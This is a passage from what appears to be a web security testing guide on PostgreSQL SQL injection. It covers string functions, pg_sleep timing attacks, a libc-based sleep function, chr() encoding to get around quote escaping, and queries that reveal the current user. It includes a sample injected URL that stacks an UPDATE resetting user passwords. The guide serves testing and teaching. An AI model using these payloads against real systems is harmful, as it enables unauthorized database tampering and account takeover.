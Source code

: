 - String Length
`LENGTH(str)`

- Extract a substring from a given string
`SUBSTR(str,index,offset)`

- String representation with no single quotes
`CHR(104)||CHR(101)||CHR(108)||CHR(108)||CHR(111)`

Starting at version 8.2, PostgreSQL introduced a built-in function, `pg_sleep(n)`, to make the current session process sleep for `n` seconds. This function can be leveraged to execute timing attacks (discussed in detail at [Blind SQL Injection](https://owasp.org/www-community/attacks/Blind_SQL_Injection)).

In addition, you can easily create a custom `pg_sleep(n)` in previous versions by using libc:

- `CREATE function pg_sleep(int) RETURNS int AS '/lib/libc.so.6', 'sleep' LANGUAGE 'C' STRICT`

### Single Quote Unescape

Strings can be encoded, to prevent single quotes escaping, by using `chr()` function.

- `chr(n)`: Returns the character whose ASCII value corresponds to the number `n`
- `ascii(n)`: Returns the ASCII value which corresponds to the character `n`

Let's say you want to encode the string 'root':

```sql
select ascii('r')
114
select ascii('o')
111
select ascii('t')
116
```

We can encode 'root' as:

`chr(114)||chr(111)||chr(111)||chr(116)`

#### Example

`https://www.example.com/store.php?id=1; UPDATE users SET PASSWORD=chr(114)||chr(111)||chr(111)||chr(116)--`

### Attack Vectors

#### Current User

The identity of the current user can be retrieved with the following SQL SELECT statements:

```sql
SELECT user
SELECT current_user
SELECT session_user
SELECT usename FROM pg_user
SELECT getpgusername()
```
